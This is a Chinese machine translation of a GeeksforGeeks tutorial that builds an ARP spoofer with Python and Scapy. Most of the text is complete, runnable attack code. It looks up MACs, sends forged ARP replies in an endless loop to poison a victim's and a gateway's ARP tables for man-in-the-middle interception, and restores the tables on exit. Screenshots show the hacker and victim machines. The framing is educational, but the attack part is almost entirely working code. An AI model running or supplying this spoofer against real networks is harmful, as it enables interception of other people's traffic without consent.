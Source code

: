 # Python–如何使用 Scapy 创建一个 ARP 欺骗器？

> 原文:[https://www . geeksforgeeks . org/python-如何使用-scapy/](https://www.geeksforgeeks.org/python-how-to-create-an-arp-spoofer-using-scapy/) 创建 arp 欺骗器

ARP 欺骗是黑客在网络中发送伪造的 ARP 的恶意攻击。连接网络中的每个节点都有一个 ARP 表，通过这个表我们可以识别连接设备的 IP 地址和 MAC 地址。
什么目的发送一个 ARP 广播找到我们想要的 IP 需要欺骗，然后欺骗网关，以及目标通过更新他们的 ARP 表。这将使目标发送的网络数据包从我们的机器传递到网络网关，从而使 ARP 欺骗成功
要设计一个 python 脚本来创建 ARP 欺骗器，我们需要 Scapy 模块。Scapy 是一个非常强大的包操作工具和库，完全用 python
编写。要安装这个模块，打开你的终端，键入:

```py
pip3 install scapy
```

下面演示的代码需要 python 3 才能工作。建议将您的 python 更新到最新版本。
**创建 ARP 欺骗器的步骤:**

1.  获取我们想要欺骗的 IP 地址
2.  获取我们想要欺骗的 IP 的 MAC 地址
3.  然后使用 ARP()函数创建一个欺骗数据包来设置目标 IP，欺骗 IP 和我们在上面找到的 MAC 地址。
4.  开始欺骗
5.  显示发送的数据包数量信息
6.  最后，在欺骗之后，将欺骗地址的 ARP 表重新设置为默认值

Now open your python IDE and import scapy as follows:

```py
import scapy.all as scapy
import time
```

现在，我们设计了一个函数，返回我们想要的 IP 地址的 MAC 地址:

```py
def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc
```

在这个函数 get_mac()中，无论输入了什么 IP 地址，都会使用 arp()函数创建一个 arp_request，我们使用 Ether 函数
将广播 mac 地址设置为“ff:ff:ff:ff:ff”，现在我们需要将这些地址加入到一个数据包中，因此我们使用/来完成这个操作。
SRP()函数返回响应数据包和没有响应的两个 IP 地址列表。具有所请求的匹配 IP 地址的 MAC 地址将存储在 **hwsrc** 字段中。我们将这个媒体访问控制地址返回到调用函数的地方。要了解 scapy 提供了哪些字段，还可以运行以下命令:

```py
print(scapy.ls(scapy.ARP))
```

您将看到以下可用字段:
![Scapy.ls()](img/d6e36a3d1f365aca47c0f7c399d8eb5f.png)
现在我们已经创建了一个函数，该函数为我们提供了所需的 MAC 地址，接下来我们将创建如下恶搞()函数:

```py
def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, 
                     hwdst = get_mac(target_ip), 
                               psrc = spoof_ip)

    scapy.send(packet, verbose = False)
```

该函数采用两个参数，即目标 IP 和欺骗 IP。我们再次使用 ARP()函数设计一个数据包，修改网关和目标的 ARP 表，并使用 send()函数开始欺骗。您可以将 verbose 设置为 False，因为 send 函数显示一些我们不需要的默认信息。你可以调整这个选项来获得更好的理解。
现在我们调用欺骗函数启动 ARP 欺骗:

```py
target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP
spoof(target_ip, gateway_ip) 
spoof(gateway_ip, target_ip)
```

不幸的是，上面的代码只更新了一次 ARP 表。如果我们不持续更新它们，那么默认情况下，目标的 ARP 表会自动更正为默认值。
因此我们修改了这个代码:

```py
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"
while True:
        spoof(target_ip, gateway_ip)
```

但是该代码也没有显示发送的数据包数量，因此我们再次修改它:

```py
sent_packets_count = 0
while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
```

上面的代码现在可以像预期的那样正常运行，但是仍然有一些事情没有完成。这包括无限循环，如果我们不给它一个停止的中断，这段代码将继续运行。
因此上述代码可以重写:

```py
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds
except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
```

上面的代码可以完美地运行，并且每当它得到一个键盘中断时就会停止。这段代码几乎是完美的，但是我们仍然没有将 ARP 表重新更新回默认值。因此，我们可以创建一个函数，如下所示:

```py
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, 
                             hwdst = destination_mac, 
                psrc = source_ip, hwsrc = source_mac)

    scapy.send(packet, verbose = False)
```

现在我们终于涵盖了所有内容，ARP 欺骗的代码应该如下所示:

```py
import scapy.all as scapy
import time

def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip),
                                                            psrc = spoof_ip)
    scapy.send(packet, verbose = False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(packet, verbose = False)

target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds

except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
    restore(gateway_ip, target_ip)
    restore(target_ip, gateway_ip)
    print("[+] Arp Spoof Stopped")
```

既然你已经成功设计了代码，那么运行并检查它是否工作的时间到了:

下面是**黑客机** :
![](img/eb751959d9a040c75cabbddd54ec6e85.png)
下面是**受害机** :
![](img/6e09305d2f7cfa619242d3359eea64a2.png)
的截图在这里我们可以清楚地看到，受害者网关在 10.0.2.1 的 MAC 地址第二次发生了明显的变化。因此，我们知道我们的 ARP 欺骗代码是成功的。